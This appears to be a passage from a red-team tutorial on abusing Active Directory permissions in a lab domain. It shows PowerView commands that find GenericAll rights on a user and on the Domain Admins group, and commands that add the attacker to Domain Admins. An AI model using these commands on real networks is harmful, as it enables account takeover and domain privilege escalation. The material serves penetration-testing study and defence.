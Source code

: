 ```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
```

We can see that indeed our user `spotless` has the `GenericAll` rights, effectively enabling the attacker to take over the account:

![](<../../.gitbook/assets/Screenshot from 2018-11-07 20-19-43.png>)

We can reset user's `delegate` password without knowing the current password:

![](<../../.gitbook/assets/Screenshot from 2018-11-07 20-21-30 (1).png>)

### GenericAll on Group

Let's see if `Domain admins` group has any weak permissions. First of, let's get its `distinguishedName`:

```csharp
Get-NetGroup "domain admins" -FullData
```

![](<../../.gitbook/assets/Screenshot from 2018-11-08 09-50-20.png>)

```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

We can see that our attacking user `spotless` has `GenericAll` rights once again:

![](<../../.gitbook/assets/Screenshot from 2018-11-08 09-52-10.png>)

Effectively, this allows us to add ourselves (the user `spotless`) to the `Domain Admin` group:

```csharp
net group "domain admins" spotless /add /domain
```

![](<../../.gitbook/assets/Peek 2018-11-08 10-07.gif>)

Same could be achieved with Active Directory or PowerSploit module:

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

### GenericAll / GenericWrite / Write on Computer

If you have these privileges on a Computer object, you can pull [Kerberos Resource-based Constrained Delegation: Computer Object Take Over](resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution.md) off.
